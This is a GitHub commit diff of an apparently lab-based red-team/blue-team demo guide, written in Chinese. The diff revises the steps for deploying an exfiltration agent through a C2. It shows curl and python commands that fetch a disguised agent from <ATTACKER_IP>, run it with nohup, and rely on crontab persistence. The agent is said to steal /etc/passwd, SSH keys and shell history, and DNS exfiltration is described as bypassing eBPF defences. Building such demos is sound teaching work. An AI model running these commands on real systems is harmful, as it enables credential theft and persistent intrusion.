

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/DEMO_FLOW.md, 2 parts joined by grey strips. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
v2.3 fix: comprehensive DEMO_FLOW.md revision for deploy v3
- Round 2b deploy: split into 2 steps (download + nohup background run)
  to avoid C2's 15-second subprocess.run timeout
- Round 2b crontab: use curl re-download instead of base64 (agent
  self-deletes after execution, needs fresh download each time)
- Round 7: add checklist (listener + HTTP server + eBPF v2 must all
  be running), note HTTP server must stay alive for crontab
- Add troubleshooting: timeout fix, curl no-output, HTTP port conflict
- Fix curl -s → curl -sS throughout

````diff
--- a/docs/DEMO_FLOW.md
+++ b/docs/DEMO_FLOW.md
@@ -308,20 +308,49 @@ sudo .venv/bin/python3 red_team/exfil_listener.py
 [*] Waiting for incoming data...
 ```
 
-### T3 — 透過 C2 部署 Agent 到靶機
+### T4 — 啟動 HTTP Server + 透過 C2 部署 Agent
 
-用 `deploy_agent.sh` 啟動 HTTP server，再將一行指令貼到 C2：
+在攻擊機 T4 終端，用 `deploy_agent.sh` 啟動臨時 HTTP server：
 
 ```bash
-# 攻擊機：啟動臨時 HTTP server（會印出要貼的指令）
+# T4（攻擊機）：啟動臨時 HTTP server
 bash red_team/deploy_agent.sh <ATTACKER_IP>
 ```
 
-將印出的指令貼到 C2 prompt 中執行：
+會印出類似這樣的指令：
+```
+[+] HTTP server running (PID: 12345)
+
+[*] Paste ONE of these into C2:
+
+  curl:
+curl -sS http://<ATTACKER_IP>:8888/exfil_agent.py -o /tmp/.cache_update.py && python3 /tmp/.cache_update.py <ATTACKER_IP>
+
+  python3 (if curl fails):
+python3 -c "import urllib.request;urllib.request.urlretrieve('http://...','...')" && python3 /tmp/.cache_update.py <ATTACKER_IP>
+```
+
+> **⚠️ 重要**：不要直接複製上面的指令！C2 有 15 秒 timeout 限制，agent 執行時間超過 15 秒會被截斷。必須分兩步執行：
+
+**步驟 1 — 下載 agent（在 C2 prompt）：**
 
 ```
-C2> curl -s http://<ATTACKER_IP>:8888/exfil_agent.py -o /tmp/.cache_update.py && python3 /tmp/.cache_update.py <ATTACKER_IP>
+C2> curl -sS http://<ATTACKER_IP>:8888/exfil_agent.py -o /tmp/.cache_update.py
 ```
+
+預期輸出：`[no output]`（代表成功）。如果看到錯誤訊息，檢查 HTTP server 是否正在運行。
+
+**步驟 2 — 背景執行 agent（在 C2 prompt）：**
+
+```
+C2> nohup python3 /tmp/.cache_update.py <ATTACKER_IP> > /dev/null 2>&1 &
+```
+
+> 用 `nohup ... &` 背景執行，這樣 C2 不會等待 agent 完成，避免 15 秒 timeout。
+
+> **注意**：如果要做回合 7（crontab 持久化），**不要**按 Enter 關閉 HTTP server！
+> 讓它保持運行，crontab 每次觸發都需要重新下載 agent（因為 agent 執行完會自刪）。
+> 如果不做回合 7，可以按 Enter 關閉。
 
 Agent 會自動：
 1. 蒐集 `/etc/passwd`、`~/.ssh/*`、`~/.bash_history`、`~/vuln_api.py` 等
@@ -584,21 +609,29 @@ Listener 不會收到連線（進程在 connect() 前被殺）。
 > **目的**：展示回合 2b 植入的 crontab 持久化在所有防禦上線後仍持續運作，DNS exfiltration 完全繞過 eBPF v2
 > **MITRE ATT&CK**: T1053.003 (Persistence: Cron), T1048.003 (Exfiltration Over Alternative Protocol)
 
-### T3 — 確認 Exfil Listener 仍在運行
+### 事前確認（三個東西要同時在線）
 
-Listener 應該從回合 2b 就一直開著。如果已關閉，重新啟動：
+1. **T3 — Exfil Listener 仍在運行**
+   Listener 應該從回合 2b 就一直開著。如果已關閉，重新啟動：
+   ```bash
+   sudo .venv/bin/python3 red_team/exfil_listener.py
+   ```
 
-```bash
-sudo .venv/bin/python3 red_team/exfil_listener.py
-```
+2. **T4 — HTTP Server 仍在運行**
+   deploy_agent.sh 應該從回合 2b 就一直開著（沒按 Enter）。
+   如果已關閉，重新啟動：
+   ```bash
+   bash red_team/deploy_agent.sh <ATTACKER_IP>
+   ```
 
-### T2 — 確認 eBPF v2 仍在運行（--kill 模式）
-
-eBPF v2 應該從回合 6 就一直開著。
+3. **T2 — eBPF v2 仍在運行（--kill 模式）**
+   eBPF v2 應該從回合 6 就一直開著。
 
 ### 等待 Crontab 觸發
 
-回合 2b 設定的 crontab 每 2 分鐘執行一次。等待觸發（最多 2 分鐘）。
+回合 2b 設定的 crontab 每 2 分鐘自動 curl 下載 + 執行 agent。等待觸發（最多 2 分鐘）。
+
+> 可以 SSH 到靶機確認 crontab 存在：`crontab -l`
 
 ### T3 — 觀察 Listener 接收到新資料
 
````
Also changed, not shown: other parts of docs/DEMO_FLOW.md (+9 -10 lines).
